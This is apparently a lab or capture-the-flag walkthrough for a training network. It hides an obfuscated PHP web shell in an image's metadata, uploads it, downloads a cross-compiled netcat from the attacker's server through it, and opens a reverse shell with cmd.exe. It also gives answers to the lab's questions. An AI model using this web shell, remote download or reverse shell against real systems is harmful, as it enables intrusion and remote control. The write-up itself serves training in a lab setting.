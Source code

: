 ```
exiftool -Comment="<?php \$y0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$y0)){echo base64_decode('PHByZT4=').shell_exec(\$y0).base64_decode('PC9wcmU+');}die();?>" payload.jpg.php


```
> now just upload the file as we did previous section. and browse the file from the browser using the proxy (we should attact command to the end as follows)
```
10.200.101.100/resources/uploads/payload.jpg.php?wreath=whoami
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the Host Name of the current target ? | wreath-pc |
| What is our current username (include the domain in this) | wreath-pc\thomas |




## AV Evasion : Compiling Netcat & Reverse Shell!

> compile the netcat in linux
```
git clone https://github.com/int0x33/nc.exe
cd nc.exe
rm nc*.exe
nano Makefile
```
> now add the line to the file and comment other same lines
```
CC=x86_64-w64-mingw32-gcc
```
> then just save and exit the editor and run 
```
make
```
> run a local http server 
```
python3 -m http.server 12345
```

> upload the nc.exe into the target
```
10.200.101.100/resources/uploads/payload.jpg.php?wreath=curl http://10.50.102.109:12345/nc.exe -o C:\\windows\\temp\\nc-littlehuman.exe
```
> create a local netcat listener
```
nc -lvnp 1234
```
> run the target's netcat and get a reverse shell
```
10.200.101.100/resources/uploads/payload.jpg.php?wreath=powershell.exe%20C:\\Windows\\temp\\nc-littlehuman.exe%2010.50.102.109%2012345%20-e%20cmd.exe
```
